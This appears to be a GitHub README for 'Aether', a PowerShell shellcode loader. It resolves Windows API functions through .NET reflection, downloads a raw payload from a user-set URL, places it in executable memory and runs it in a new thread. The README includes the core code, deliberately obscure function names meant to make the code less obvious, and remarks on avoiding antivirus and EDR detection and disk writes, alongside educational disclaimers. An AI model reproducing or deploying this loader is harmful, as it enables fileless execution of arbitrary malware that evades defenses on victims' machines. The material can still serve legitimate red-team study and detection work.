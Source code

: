 # Aether

Aether is a PowerShell script that uses .NET reflection to call Windows API functions on the fly and run code directly from memory. It’s a practical example of how you can use PowerShell to dynamically load and execute payloads without touching disk.

## What it does

- Finds Windows API functions like `VirtualAlloc` and `CreateThread` by searching through loaded .NET assemblies, not by standard P/Invoke.
- Builds delegates at runtime, allowing managed PowerShell code to call these low-level functions.
- Downloads a binary payload from a URL, puts it in memory, and runs it in a new thread.
- Uses intentionally odd variable names (like “potatoes” and “apples”) to keep things interesting and less obvious at first glance.

## How to use

**Fair Warning:** This script executes arbitrary code and may trigger antivirus or EDR solutions. Use it for learning, research, or red/purple team labs—never on unauthorized systems.

1. Set the `$url` variable in the script to point to your payload (must be a raw binary).
2. Run the script in PowerShell. Admin rights may be needed, depending on what your payload does.

```powershell
$url = "https://your-server.com/payload.bin"   # <--- Change this
# ...rest of the script...
```

## How it works (in plain English)

- **API Lookup:** The function `potatoes` finds the address of Windows API functions (like `VirtualAlloc`) using .NET internals.
- **Delegate Generation:** The function `apples` creates the right .NET delegate type at runtime, matching the function’s signature.
- **Payload Download:** The script grabs your payload from the internet and saves it in a byte array.
- **Memory Allocation:** It uses `VirtualAlloc` to reserve memory with execute permissions.
- **Copy and Go:** The binary is copied into the allocated memory, then a new thread is created at that address.
- **Wait:** The script waits for the thread (your payload) to finish running.

## Example

Here’s a rough step-by-step from the script:

```powershell
$virtualAllocPtr = potatoes kernel32.dll VirtualAlloc
$virtualAllocDelegateType = apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$virtualAllocDelegate = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($virtualAllocPtr, $virtualAllocDelegateType)
$mem = $virtualAllocDelegate.Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $mem, $buf.Length)

$createThreadPtr = potatoes kernel32.dll CreateThread
$createThreadDelegateType = apples @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
$createThreadDelegate = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($createThreadPtr, $createThreadDelegateType)
$thread = $createThreadDelegate.Invoke([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)

$waitForSingleObjectPtr = potatoes kernel32.dll WaitForSingleObject
$waitForSingleObjectDelegateType = apples @([IntPtr], [Int32]) ([Int32])
$waitForSingleObjectDelegate = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($waitForSingleObjectPtr, $waitForSingleObjectDelegateType)
$waitResult = $waitForSingleObjectDelegate.Invoke($thread, 0xFFFFFFFF)
```

## What’s the point?

Mainly, Aether is for:

- Showing how to use .NET reflection to avoid static API imports.
- Demonstrating in-memory execution of payloads.
- Learning more about Windows internals and PowerShell’s power (and risks).

## License

MIT License.

---

**Disclaimer:**  
This is for educational use only. Don’t use it for anything shady or on machines you don’t have explicit permission to test.
